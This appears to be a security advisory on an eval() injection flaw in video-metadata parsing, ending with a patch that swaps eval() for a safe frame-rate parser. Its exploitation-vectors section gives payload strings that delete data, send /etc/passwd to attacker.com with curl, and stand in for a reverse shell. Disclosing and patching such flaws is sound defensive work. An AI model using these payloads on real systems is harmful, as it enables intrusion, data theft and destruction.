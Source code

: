 ## ATTACK IMPACT ANALYSIS

### Immediate Threats
1. **Complete System Compromise**: Attackers can execute any Python code
2. **Data Exfiltration**: Access to all application data, secrets, and configuration
3. **Backdoor Installation**: Persistent unauthorized access
4. **Service Disruption**: Application manipulation or destruction
5. **Lateral Movement**: Compromise of connected systems and networks

### Business Risk
- **Regulatory Compliance**: GDPR, CCPA, HIPAA violations if data is accessed
- **Reputation Damage**: Public disclosure of security vulnerabilities
- **Financial Impact**: Incident response costs, legal fees, potential fines
- **Service Availability**: Potential complete service shutdown required

## EXPLOITATION VECTORS

### Vector 1: Malicious Video Upload
```python
# Attacker creates video with malicious metadata
r_frame_rate = '__import__("os").system("rm -rf /important/data")'
```

### Vector 2: Data Exfiltration
```python
# Steal sensitive files
r_frame_rate = '__import__("subprocess").run(["curl", "-X", "POST", "http://attacker.com/steal", "-d", open("/etc/passwd").read()])'
```

### Vector 3: Backdoor Installation
```python
# Install reverse shell
r_frame_rate = '__import__("subprocess").run(["python3", "-c", "reverse_shell_code"])'
```

## REQUIRED IMMEDIATE ACTIONS

### 🚨 EMERGENCY PATCH (24 HOURS)

**Replace vulnerable eval() calls**:

```python
# BEFORE (VULNERABLE):
'fps': eval(video_stream.get('r_frame_rate', '0/1'))

# AFTER (SECURE):
'fps': safe_parse_frame_rate(video_stream.get('r_frame_rate', '0/1'))
```
